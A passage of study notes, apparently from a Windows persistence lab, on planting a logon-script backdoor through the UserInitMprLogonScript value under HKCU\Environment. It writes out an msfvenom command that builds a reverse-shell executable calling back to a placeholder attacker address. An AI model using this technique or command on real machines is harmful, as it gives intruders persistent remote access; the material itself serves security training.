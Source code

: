 One of the things `userinit.exe` does while loading your user profile is to check for an environment variable called `UserInitMprLogonScript`. We can use this environment variable to assign a logon script to a user that will get run when logging into the machine. The variable isn't set by default, so we can just create it and assign any script we like.

Note:
	Notice that each user has its own environment variables; therefore, you will need to backdoor each separately.

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST={ATTACKER_IP} LPORT={4453} -f exe -o {revshell.exe}
```

```shell-session
C:\> move revshell.exe C:\Windows
```

To create an environment variable for a user, you can go to its `HKCU\Environment` in the registry. We will use the `UserInitMprLogonScript` entry to point to our payload so it gets loaded when the users logs in:
		![[Pasted image 20240911030030.png]]

Note:
	Notice that this registry key has no equivalent in `HKLM`, making your backdoor apply to the current user only.